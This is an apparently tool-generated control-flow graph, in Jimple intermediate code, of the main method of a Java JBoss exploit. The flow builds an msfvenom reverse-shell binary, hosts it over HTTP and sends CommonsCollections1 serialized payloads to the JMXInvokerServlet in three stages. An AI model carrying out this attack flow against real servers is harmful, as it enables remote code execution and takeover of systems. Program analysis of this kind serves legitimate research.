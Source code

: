 digraph "unitGraph" {
    "r1 := @parameter0: java.lang.String[]"
    "r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>()"
    "r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1)"
    "r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\")"
    "$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\")"
    "i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4)"
    "r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\")"
    "$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\")"
    "i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6)"
    "$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\")"
    "i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7)"
    "r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\")"
    "if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")"
    "r21 = \"/invoker/JMXInvokerServlet\""
    "r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")"
    "if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>"
    "r22 = \"CommonsCollections1\""
    "$r9 = <java.lang.System: java.io.PrintStream out>"
    "$r8 = new java.lang.StringBuilder"
    "specialinvoke $r8.<java.lang.StringBuilder: void <init>()>()"
    "$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\")"
    "$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0)"
    "$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\")"
    "$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>()"
    "virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13)"
    "staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0)"
    "$r14 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\")"
    "staticinvoke <jbossexploit.Main: void hostFile(int)>(i2)"
    "$r15 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\")"
    "i3 = 0"
    "if i3 >= 3 goto return"
    "$r17 = <java.lang.System: java.io.PrintStream out>"
    "$r16 = new java.lang.StringBuilder"
    "specialinvoke $r16.<java.lang.StringBuilder: void <init>()>()"
    "$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \")"
    "$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3)"
    "$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>()"
    "virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20)"
    "staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22)"
    "i3 = i3 + 1"
    "goto [?= (branch)]"
    "return"
    "r1 := @parameter0: java.lang.String[]"->"r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>()";
    "r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>()"->"r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1)";
    "r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1)"->"r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\")";
    "r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\")"->"$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\")";
    "$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\")"->"i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4)";
    "i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4)"->"r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\")";
    "r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\")"->"$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\")";
    "$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\")"->"i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6)";
    "i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6)"->"$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\")";
    "$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\")"->"i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7)";
    "i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7)"->"r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\")";
    "r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\")"->"if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")";
    "if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")"->"r21 = \"/invoker/JMXInvokerServlet\"";
    "if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")"->"r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")";
    "r21 = \"/invoker/JMXInvokerServlet\""->"r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")";
    "r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\")"->"if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>";
    "if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>"->"r22 = \"CommonsCollections1\"";
    "if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>"->"$r9 = <java.lang.System: java.io.PrintStream out>";
    "r22 = \"CommonsCollections1\""->"$r9 = <java.lang.System: java.io.PrintStream out>";
    "$r9 = <java.lang.System: java.io.PrintStream out>"->"$r8 = new java.lang.StringBuilder";
    "$r8 = new java.lang.StringBuilder"->"specialinvoke $r8.<java.lang.StringBuilder: void <init>()>()";
    "specialinvoke $r8.<java.lang.StringBuilder: void <init>()>()"->"$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\")";
    "$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\")"->"$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0)";
    "$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0)"->"$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\")";
    "$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\")"->"$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>()";
    "$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>()"->"virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13)";
    "virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13)"->"staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0)";
    "staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0)"->"$r14 = <java.lang.System: java.io.PrintStream out>";
    "$r14 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\")";
    "virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\")"->"staticinvoke <jbossexploit.Main: void hostFile(int)>(i2)";
    "staticinvoke <jbossexploit.Main: void hostFile(int)>(i2)"->"$r15 = <java.lang.System: java.io.PrintStream out>";
    "$r15 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\")";
    "virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\")"->"i3 = 0";
    "i3 = 0"->"if i3 >= 3 goto return";
    "if i3 >= 3 goto return"->"$r17 = <java.lang.System: java.io.PrintStream out>";
    "if i3 >= 3 goto return"->"return";
    "$r17 = <java.lang.System: java.io.PrintStream out>"->"$r16 = new java.lang.StringBuilder";
    "$r16 = new java.lang.StringBuilder"->"specialinvoke $r16.<java.lang.StringBuilder: void <init>()>()";
    "specialinvoke $r16.<java.lang.StringBuilder: void <init>()>()"->"$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \")";
    "$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \")"->"$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3)";
    "$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3)"->"$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>()";
    "$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>()"->"virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20)";
    "virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20)"->"staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22)";
    "staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22)"->"i3 = i3 + 1";
    "i3 = i3 + 1"->"goto [?= (branch)]";
    "goto [?= (branch)]"->"if i3 >= 3 goto return";
}
